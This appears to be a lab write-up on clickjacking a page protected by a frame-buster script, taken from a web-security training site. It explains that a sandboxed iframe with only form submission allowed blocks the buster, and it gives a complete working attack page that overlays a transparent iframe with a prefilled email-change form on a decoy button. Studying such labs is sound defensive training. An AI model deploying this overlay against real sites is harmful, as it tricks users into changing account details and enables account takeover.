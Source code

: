 ## Clickjacking with a frame buster script

Same thing as above regarding email changing functionality, but the page contains a frame busting script

```
<script>
    if(top != self) {
        window.addEventListener("DOMContentLoaded", function() {
            document.body.innerHTML = 'This page cannot be framed';
        }, false);
    }
</script>
```

Simply adding `sandbox="allow-forms"` to `iframe` definition will cause the iframe to be sandboxed and allow only form submission in it, preventing script execution, therefore stoping frame buster.

Once done we can see ERROR log in the console:

```
Blocked script execution in 'https://0ae600f703b3e20d85c7b47b00d70047.web-security-academy.net/my-account?email=pwned1@email.com' because the document's frame is sandboxed and the 'allow-scripts' permission is not set.
```

Solution:

```
<head>
<style>
    #target_website {
        position:relative;
        width:1000px;
        height:1000px;
        opacity: 0.00005;
        z-index:2;
        top: 0;
        left: 0;
    }
    #decoy_website {
        position:absolute;
        width:100%;
        height:100%;
        z-index:1;
    }
    #click {
        position: relative;
        top: 453;
        left: 50;
        padding: 5;
        width: 100;
    }
</style>
</head>
<body>
<div id="decoy_website">
    <button type="button" id="click">
        Click me
    </button>
</div>
<iframe 
    id="target_website" 
    src="https://0ae600f703b3e20d85c7b47b00d70047.web-security-academy.net/my-account?email=pwned1@email.com"
    sandbox="allow-forms"
></iframe>
```